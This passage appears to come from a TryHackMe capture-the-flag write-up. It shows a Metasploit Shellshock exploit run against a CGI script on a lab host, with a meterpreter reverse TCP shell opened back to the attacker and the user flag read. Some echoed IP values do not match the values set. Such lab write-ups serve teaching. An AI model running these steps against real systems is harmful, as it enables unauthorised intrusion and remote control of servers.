 ```bash
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.14.50.228        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhost 10.10.60.101
rhost => 10.10.51.105
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 10.xx.xx.xx
LHOST => 10.9.156.68
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.xx.xx.xx:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.60.101
[*] Meterpreter session 1 opened (10.xx.xx.xx:4444 -> 10.10.60.101:38928) at 2021-06-11 00:48:15 +0300

meterpreter > getuid
Server username: no-user @ ubuntu (uid=33, gid=33, euid=33, egid=33)
```

## Flag

Now, lets open the the shell and grab the user flag.

```bash
meterpreter > shell
Process 1503 created.
Channel 1 created.
$ cat /home/ryan/user.txt	
{THM{Sh3llSh0ck_r0ckz}
```
